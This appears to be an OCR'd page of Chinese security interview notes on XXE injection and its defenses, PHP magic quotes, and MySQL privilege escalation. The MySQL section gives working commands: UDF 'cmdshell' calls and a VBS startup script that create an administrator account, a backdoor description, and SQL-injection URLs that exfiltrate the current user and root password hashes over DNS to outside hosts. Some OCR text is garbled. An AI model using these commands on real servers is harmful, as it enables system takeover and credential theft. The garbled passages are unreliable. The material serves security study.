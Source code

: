 64.xxe 注入有哪些危害以及防御   ？ 
（1）引用外部实体<!ENTITY 实体名称  SYSTEM "URI">或者  <!ENTITY 实体名称  PUBLIC "public_ID" "URI">  当允许引用外部实体时，通过构造恶意内容  
（2）可导致读取任意文件、执行系统命令、探测内网端口、攻击内网网站等危害。  
对于不同 XML 解析器,对外部实体有不同处理规则,在 PHP 中默认处理的函数为:  
xml_parse 和 simplexml_load xml_parse 的实现方式为 expat 库，默认情况不会解析外部实体,而 simplexml_load 默认情况下会解析外部实体,造成安全威胁. 
除 PHP 外，在 Java ，Python 等处理 xml 的组件及函数中都可能存在此问题  
https://www.waitalone.cn/xxe-attack.html  
XXE 漏洞 http://www.91ri.org/9539.html &nbsp;  
<!DOCTYPE filename  
[<!ENTITY entity-name "entity-content" ]>  
（3）防御：  
方案一、使用开发语言提供的禁用外部实体的方法  
libxml_disable_entity_loader(true);  
方案二、过滤用户提交的 XML 数据  
1.检查所使用的底层 xml 解析库，默认禁止外部实体的解析  
2.使用第三方应用代码及时升级补丁  
3.同时增强对系统的监控，防止此问题被人利用  
对于 PHP,由于 simplexml_load_string 函数的 XML 解析问题出在 libxml 库上, 所以加载实体前可以调用这样一个函数  

65.gpc  魔术引号？  
参考文章： http://www.jb51.net/article/38990  

66.MYSQL 有哪些提权方法？  
 （1 ）UDF 提权  
这类提权方法我想大家已经知道了，我大致写一下，具体语句如下：  
create function cmdshell returns string soname ’udf.dll’    
select cmdshell(’net user iis_user 123!@#abcABC /add’);    
select cmdshell(’net localgroup administrators iis_user /add’);    
select cmdshell(’regedit /s d:web3389.reg’);    
drop function cmdshell;    
select cmdshell(’netstat -an’);  
 （2 ）VBS 启动项提权  
create table a (cmd text);    
insert into a values ("set wshshell=createobject (""wscript.shell"") " );    
insert into a values ("a=wshshell.run (""cmd.exe /c net user iis_user 123!@#abcABC/add"",0) " );    
insert into a values ("b=wshshell.run (""cmd.exe /c net localgroup administrators iis_user /add"",0) " );    
select * from a into outfile "C:\ Documents and Settings\All Users\ 「开始」 
菜单\程序\启动\a.vbs";  
 （3 ）Linx MySQL BackDoor 提权  
Linx Mysql Door  
Mysql BackDoor 是一款针对 PHP+Mysql 服务器开发的后门,该后门安装后为 
Mysql增加一个可以执行系统命令的"state"函数,并且随 Mysql进程启动一个基于 Dll 的嗅探型后门,这个后门在 Windows 下拥有与 Mysql 一样的系统权限,从而巧妙的实现了无端口,无进程,无服务的穿墙木马.  
用法：将 Mysql.php 传到 PHP 服务器上,点击"自动安装 Mysql BackDoor" ， 
然后直接执行命令即可    
 （4 ）MIX.DLL 提权  
1.在独立 IP 的 sqlmap 下运  
2.禁用本地缓存  net stop dns  
3.http://localhost/inject.php?user=123&#39; and if((SELECT  
LOAD_FILE(CONCAT('\\',(SELECT  
hex(user())),'.abc.com\foobar'))),1,1)%23  
http://localhost/inject.php?user=123&#39; and if((SELECT  
LOADFILE(CONCAT('\\',(SELECT concat(user,'',mid(password,2,41)) from  
user where user='root' limit 1),'.md5crack.cn\foobar'))),1,1)%23  
https://sanwen8.cn/p/1acWt8J.html &nbsp;   
4.DNS 突破  
参考文章：http://www.freebuf.com/vuls/85021.html  
